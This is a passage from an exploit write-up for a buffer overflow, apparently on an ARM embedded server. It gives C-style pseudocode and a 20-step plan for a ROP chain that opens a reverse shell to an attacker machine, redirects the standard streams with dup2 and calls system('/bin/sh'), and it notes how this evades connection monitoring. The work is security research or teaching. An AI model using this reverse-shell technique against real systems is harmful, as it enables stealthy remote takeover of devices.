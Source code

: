 So we know how far is the return address from our buffer start. Now, we need to retrieve useful gadgets and functions in the binary and shared libraries shipped in rootfs. These gadgets should allow us to spawn a shell, typically by calling `system` function or `exec*` like syscalls. 

One remaining issue is that the process (`/bin/sh`) would have its file descriptors inherited from its father, and in our case it means we won't be able to interact with the spawned shell. 

To tamper with this, we could write a ROP-chain that achieves a complete reverse shell onto attacker machine, or just `dup2` the already opened client socket file descriptor to overwrite `STDIN`, `STDOUT`, `STDERR`. The ROP-chain would finally performs following calls:
```C
// in case of complete reverse shell,
// we prepend following code to ROP-chain
csock = socket(AF_INET, SOCK_STREAM, 0);
connect(csock, (struct sockaddr *)&sin, sizeof(sin));   // where sin is written on stack
                                                        // and contains data for connecting 
                                                        // to attacker
// base ROP-chain
dup2(csock, 0);
dup2(csock, 1);
dup2(csock, 2);
system("/bin/sh");
```

Using the already allocated socket would be very cool. **It allows stealthy exploitation by using an already allocated connection, which has been created by a normal behavior of the server**. It would have been stealthier than creating a new socket, which can be seen with tools like `ss`, or even be trapped by software monitoring network connections.

What harden the difficulty for exploiting this way is the unpredictability of the `csock` file descriptor. Indeed, `accept` could have been called many times before we try to exploit and if for some reason file descriptors hasn't been released by the kernel, then we would not be able to predict `csock` value.

Plan:
1. set `r0` to `2`
2. set `r1` to `1`
3. set `r2` to `0`
4. **call `socket`**
5. save `r0` value somewhere
6. set `r0` to `csock` (result of socket is already in `r0`, so nothing to do) 
7. set `r1` to `sin` (located inside function frame)
8. set `r2` to `16` (equals to `sizeof(struct sockaddr_in)`)
9. **call `connect`**
10. set `r0` to `csock`
11. set `r1` to `0`
12. **call `dup2`**
13. set `r0` to `csock`
14. set `r1` to `1`
15. **call `dup2`**
16. set `r0` to `csock`
17. set `r1` to `2`
18. **call `dup2`**
19. set `r0` to `"/bin/sh"`
20. **call `system`**

